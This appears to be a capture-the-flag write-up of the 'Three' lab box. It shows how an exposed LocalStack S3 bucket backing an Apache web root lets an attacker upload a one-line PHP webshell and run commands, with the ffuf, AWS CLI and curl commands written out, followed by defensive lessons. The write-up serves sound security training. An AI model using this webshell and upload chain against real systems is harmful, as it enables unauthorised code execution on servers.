





# Three — Pwning a Website via a Misconfigured S3 Bucket

A deceptively simple Starting Point box, Three demonstrates how a misconfigured S3-compatible storage backend can turn a static-looking website into a remote code execution vulnerability. The attack chain is short but teaches a genuinely common real-world pattern: enumerate subdomains, find exposed cloud storage, write a webshell, get a shell.

---

## Reconnaissance

### Port Scan

Standard nmap to start. Two open ports — SSH and HTTP, nothing exotic.



Port 80 is the obvious entry point, so let's see what's running there.

### Web Enumeration

Navigating to the IP redirects to `http://thetoppers.htb` — a band website for "The Toppers" with fully static content. Nothing interactive, no login forms, no obvious attack surface in the HTML itself. I added the hostname to `/etc/hosts` and kept looking.

The interesting question is always: what *else* is on this domain? Virtual host and subdomain enumeration is worth doing here. In this case, the box hints that a subdomain exists, but in a real engagement you'd reach for a tool like `gobuster` in vhost mode or `ffuf` with a subdomain wordlist:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
     -u http://thetoppers.htb \
     -H "Host: FUZZ.thetoppers.htb" \
     -fc 302
```

The subdomain that matters here is `s3.thetoppers.htb`. After adding it to `/etc/hosts`, a quick `curl` reveals it immediately:



That's the fingerprint of a [LocalStack](https://localstack.cloud/) instance — a local AWS service emulator commonly used in development environments. It exposes an S3-compatible API endpoint, which means we can interact with it using the standard AWS CLI by pointing it at this host instead of AWS proper.

---

## Foothold

### Enumerating the S3 Bucket

The AWS CLI's `--endpoint-url` flag lets you redirect any S3 command to an arbitrary S3-compatible service. Combined with `--no-sign-request` (which skips authentication entirely), we can start querying this LocalStack instance without credentials.

First, let's list available buckets:

```bash
aws --endpoint-url=http://s3.thetoppers.htb s3 ls --no-sign-request
```



There's a bucket named `thetoppers.htb`. Let's see what's inside it:

```bash
aws --endpoint-url=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb \
    --no-sign-request --recursive
```



This is significant: the bucket contains `.htaccess` and `index.php` — this is the Apache web root for `thetoppers.htb`. The web server is serving files directly from the S3 bucket. Apache processes PHP files as it serves them, so if we can write to this bucket, we can write executable code.

The critical question is whether the bucket allows unauthenticated writes. With LocalStack running default configuration, the answer is yes — there's no ACL or policy in place to restrict uploads.

### Uploading a Webshell

The simplest possible PHP webshell: one line that passes a GET parameter directly to `system()`. We create it locally and upload it to the bucket root:

```bash
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php

aws --endpoint-url=http://s3.thetoppers.htb s3 cp /tmp/shell.php \
    s3://thetoppers.htb/shell.php --no-sign-request
```

Now `shell.php` lives in the bucket, which means Apache will serve it at `http://thetoppers.htb/shell.php`. Because Apache is configured to execute PHP, our upload is immediately a working webshell.

### Confirming Remote Code Execution

Let's verify execution before doing anything more complex:

```bash
curl "http://thetoppers.htb/shell.php?cmd=id"
```



We have code execution as `www-data`. From here, reading the flag is straightforward:

```bash
curl "http://thetoppers.htb/shell.php?cmd=cat+/var/www/flag.txt"
```

Flag retrieved. This is a single-flag Starting Point box, so there's no privilege escalation to chase here.

---

## Lessons Learned

**Subdomain enumeration is always worth doing.** The entire attack surface here was hidden behind a subdomain. `s3.thetoppers.htb` would have been found by any wordlist that includes "s3" — which most do. In real engagements this extends to certificate transparency logs, DNS zone transfers where permitted, and tools like `amass` or `subfinder`.

**LocalStack's default configuration has no authentication.** LocalStack is designed for local development, so out-of-the-box it accepts all requests without credentials. The `--no-sign-request` flag tells the AWS CLI not to even attempt to sign the request. This becomes a critical vulnerability when LocalStack is accidentally exposed on a network interface accessible to attackers — which happens more than you'd think when developers spin up a dev environment without restricting bind addresses.

**Writable web root + script execution = RCE.** The core vulnerability here isn't really S3 — it's that the web server's document root is backed by a storage service that accepts unauthenticated writes. If you can write arbitrary files to a directory that a web server serves with script execution enabled, you have RCE. This pattern shows up with misconfigured NFS mounts, writable FTP roots, and cloud storage buckets in exactly the same way.

**The `--endpoint-url` flag is a powerful enumeration primitive.** Any S3-compatible service — Minio, Ceph, DigitalOcean Spaces, Backblaze B2, LocalStack — can be queried with the standard AWS CLI. If you encounter an S3-like API during an engagement, you don't need a specialized tool. `aws s3 ls --endpoint-url=<target> --no-sign-request` is often enough to determine whether you have unauthenticated access.
